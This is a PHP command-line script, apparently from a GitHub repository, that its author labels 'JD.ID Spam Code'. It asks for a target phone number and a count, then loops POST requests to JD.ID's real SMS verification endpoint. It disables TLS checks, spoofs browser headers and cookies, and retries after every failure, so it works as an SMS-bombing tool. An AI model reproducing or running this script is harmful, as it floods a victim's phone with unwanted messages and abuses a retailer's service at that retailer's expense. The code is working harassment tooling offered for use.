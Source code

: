 # spm-jd.id
<?php
/* 
JD.ID Spam Code
Coded by : f4dl
Github : https://github.com/fadl/spm-jd.id
*/
echo "\e[93mJD.ID Spam Code
\e[36m===========\e[91m>>>>>>>>>>\n\e[36mAuthor : f4dl
Github : https://github.com/f4dl
\e[36m===========\e[91m>>>>>>>>>>";
echo "\n\e[36mNo Target : ";
$no = trim(fgets(STDIN, 1024));
echo "Count     : ";
$loop = trim(fgets(STDIN, 1024));
echo "\e[36m===========\e[91m>>>>>>>>>>\n\e[96m\e[5mResults:\n";
for ($x=1; $x<=$loop; $x++) {
	$c = curl_init();
	curl_setopt($c, CURLOPT_URL, "https://passport.jd.id/sms/sendSMSCode");
	curl_setopt($c, CURLOPT_USERAGENT, "Mozilla/5.0 (iPhone; U; CPU iPhone OS 3_0 like Mac OS X; en-us) AppleWebKit/528.18 (KHTML, like Gecko) Version/4.0 Mobile/7A341 Safari/528.16");
	curl_setopt($c, CURLOPT_SSL_VERIFYHOST, 0);
	curl_setopt($c, CURLOPT_SSL_VERIFYPEER, 0);
	curl_setopt($c, CURLOPT_RETURNTRANSFER, 1);
	curl_setopt($c, CURLOPT_HTTPHEADER, array(
	    'Accept: application/json, text/javascript, */*; q=0.01',
	    'Accept-Language: en-US,en;q=0.5',
	    'Content-Type: application/x-www-form-urlencoded; charset=utf-8',
	    'Connection: keep-alive',
	    'Host: passport.jd.id',
	    'Cookie: __jda=161319996.15195775008192065165156.1519577501.1519892386.1523711222.3',
	    'Referer: https://passport.jd.id/register/phone',
	    'X-Requested-With: XMLHttpRequest'
	));
	curl_setopt($c, CURLOPT_POSTFIELDS,"phone=".$no);
	curl_setopt($c, CURLOPT_POST, 1);
	$hasil = curl_exec($c);
	if ($hasil == "true") {
		echo "\e[92m$x. Code has been sent :)\n";
		flush();
		sleep(1);
	} else {
		$loop += 1;
		echo "\e[91m$x. Code failed to send :(\n\e[97mCount +1\n".($loop-$x)." remaining\n\e[93mSleep in 60s\n";
		flush();
		sleep(60);
	}
}
echo "\e[36m===========\e[91m>>>>>>>>>>\n";
echo "\e[39mHappy Ending :)";
?>
